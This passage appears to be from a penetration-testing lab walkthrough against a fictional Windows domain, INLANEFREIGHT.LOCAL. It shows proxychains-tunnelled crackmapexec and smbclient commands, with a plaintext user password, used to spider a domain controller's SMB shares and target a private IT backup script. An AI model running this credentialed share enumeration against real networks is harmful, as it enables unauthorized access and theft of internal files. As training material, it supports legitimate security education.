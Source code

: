 ```shell-session
$ proxychains crackmapexec smb 172.16.8.3 -u ssmalls -p Str0ngpass86! -M spider_plus --share 'Department Shares'

ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:135-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
SMB         172.16.8.3      445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
SMB         172.16.8.3      445    DC01             [+] INLANEFREIGHT.LOCAL\ssmalls:Str0ngpass86! 
SPIDER_P... 172.16.8.3      445    DC01             [*] Started spidering plus with option:
SPIDER_P... 172.16.8.3      445    DC01             [*]        DIR: ['print$']
SPIDER_P... 172.16.8.3      445    DC01             [*]        EXT: ['ico', 'lnk']
SPIDER_P... 172.16.8.3      445    DC01             [*]       SIZE: 51200
SPIDER_P... 172.16.8.3      445    DC01             [*]     OUTPUT: /tmp/cme_spider_plus
```

This creates a file for us in our `/tmp` directory so let's look through it.

```shell-session
$ cat 172.16.8.3.json 
{
    "Department Shares": {
        "IT/Private/Development/SQL Express Backup.ps1": {
            "atime_epoch": "2022-06-01 14:34:16",
            "ctime_epoch": "2022-06-01 14:34:16",
            "mtime_epoch": "2022-06-01 14:35:16",
            "size": "3.91 KB"
        }
    },
    "IPC$": {
        "323a2fd620dcf3e3": {
            "atime_epoch": "1600-12-31 19:03:58",
            "ctime_epoch": "1600-12-31 19:03:58",
            "mtime_epoch": "1600-12-31 19:03:58",
            "size": "3 Bytes"
<SNIP>
```

The file `SQL Express Backup.ps1` in the private IT share looks very interesting. Let's download it using `smbclient`. First, we need to connect.

```shell-session
$ proxychains smbclient -U ssmalls '//172.16.8.3/Department Shares' 

ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
Enter WORKGROUP\ssmalls's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jun  1 14:34:06 2022
  ..                                  D        0  Wed Jun  1 14:34:06 2022
  Accounting                          D        0  Wed Jun  1 14:34:08 2022
  Executives                          D        0  Wed Jun  1 14:34:04 2022
  Finance                             D        0  Wed Jun  1 14:34:00 2022
  HR                                  D        0  Wed Jun  1 14:33:48 2022
  IT                                  D        0  Wed Jun  1 14:33:42 2022
  Marketing                           D        0  Wed Jun  1 14:33:56 2022
  R&D                                 D        0  Wed Jun  1 14:33:52 2022

		10328063 blocks of size 4096. 8177952 blocks available
```
